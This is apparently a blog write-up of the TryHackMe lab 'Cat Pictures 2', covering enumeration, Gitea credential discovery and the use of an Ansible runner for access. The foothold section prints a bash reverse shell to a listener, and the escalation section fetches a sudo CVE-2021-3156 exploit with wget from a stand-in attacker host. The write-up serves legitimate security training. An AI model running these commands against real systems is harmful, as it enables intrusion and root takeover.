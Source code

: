 ```yaml
---
title: "TryHackMe - Cat Pictures 2"
author: Nasrallah
description: ""
date: 2023-06-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, sudo, cve, ansible, gitea]
img_path: /assets/img/tryhackme/catpictures2
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Cat Pictures 2](https://tryhackme.com/room/catpictures2) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.138.150                                                                                                                     [66/78]
Host is up (0.14s latency).                                                                                                                                   
Not shown: 995 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE VERSION                                                                                                                                
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                           
| ssh-hostkey:                                                                                                                                                
|   2048 33f0033626368c2f88952cacc3bc6465 (RSA)                                                                                                               
|   256 4ff3b3f26e0391b27cc053d5d4038846 (ECDSA)                                                                                                              
|_  256 137c478b6ff8f46b429af2d53d341352 (ED25519)                                                                                                            
80/tcp   open  http    nginx 1.4.6 (Ubuntu)                                                                                                                   
| http-git:                                                                                                                                                   
|   10.10.138.150:80/.git/                                                                                                                                    
|     Git repository found!                                                                                                                                   
|     Repository description: Unnamed repository; edit this file 'description' to name the...                                                                 
|     Remotes:                                                                                                                                                
|       https://github.com/electerious/Lychee.git                                                                                                             
|_    Project type: PHP application (guessed from .gitignore)                                                                                                 
|_http-title: Lychee                                                                                                                                          
|_http-server-header: nginx/1.4.6 (Ubuntu)                                                                                                                    
| http-robots.txt: 7 disallowed entries                                                                                                                       
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/                                                                                                        
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)                                                                                                             
| ssh-hostkey:                                                                                                                                                
|   256 becb061f330f6006a05a06bf065333c0 (ECDSA)                                                                                                              
|_  256 9f0798926efd2c2db093fafee8950c37 (ED25519)
3000/tcp open  ppp?                                                                                                                                    [41/78]
| fingerprint-strings:                                                                                                                                        
|   GenericLines, Help, RTSPRequest:                                                                                                                          
|     HTTP/1.1 400 Bad Request                                                                                                                                
|     Content-Type: text/plain; charset=utf-8                                                                                                                 
|     Connection: close                                                                                                                                       
|     Request                                                                                                                                                 
|   GetRequest:                                                                                                                                               
|     HTTP/1.0 200 OK                                                          
|     Cache-Control: no-store, no-transform                               
|     Content-Type: text/html; charset=UTF-8                              
|     Set-Cookie: i_like_gitea=3e2d9c0bcdff41b1; Path=/; HttpOnly; SameSite=Lax 
|     Set-Cookie: _csrf=hEu2tGDuq6rCjpi_e-yIvaG9nio6MTY5MTgzNTI1NjI0NzA5NjMzMA; Path=/; Expires=Sun, 13 Aug 2023 10:14:16 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)                
|_http-title: Welcome to nginx!                                                
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
```

We found 5 open ports, two OpenSSH servers (22 and 222), and 3 web servers.

### Web

Let's check the web servers.

#### Port 80

![](1.png)

This is a photo-management website hosted with `lychee`.

The log in form reveals the version

![](4.png)

This version doesn't have any vulnerabilities.

#### Port 3000

![](2.png)

This is Gitea version 1.17.3, also not vulnerable.

We can see there is a user registered.

![](5.png)


#### Port 8080

![](3.png)

This is the default page for nginx, nothing interesting.

Back to port 80, checking the description of the images there we find something interesting.

![](6.png)

There is a meta data in that pictures, let's download it and see what we can find.

![](7.png)

There is text file in the nginx server, let's navigate to it.

![](8.png)

We found credentials for Gitea, and also the notes informs us there is an ansible runner on port 1337.

### Gitea

Let's login to Gitea.

![](9.png)

We found a repository called ansible that has our first flag and a `playbook.yaml` file.

![](10.png)

This seems to run the command whoami as user `bismuth`

### Ansible

Let's check the Ansible runner on port 1337

![](11.png)

Here we can run an Ansible playbook, let's do it and check the logs.

![](12.png)

The playbook it run seems to be the one we found in the Gitea repository!


## **Foothold**

Let's replace the `whoami` command in `playbook.yaml` to a reverse shell.

```bash
bash -c "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"
```

![](13.png)

Let's commit the changes, setup a listener and run the playbook

![](14.png)

Great! We got the shell.

We can find a private ssh key in `bismuth`'s home directory, use it to get a better shell

## **Privilege Escalation**

Let's run `linpeas`

![](15.png)

The sudo version running on this box is vulnerable.

We can find an exploit [here](https://github.com/CptGibbon/CVE-2021-3156.git)

Let's upload the exploit, compile it and run it.

using `wget -r -np http://attacker.com/` we can download the whole directory.

![](16.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

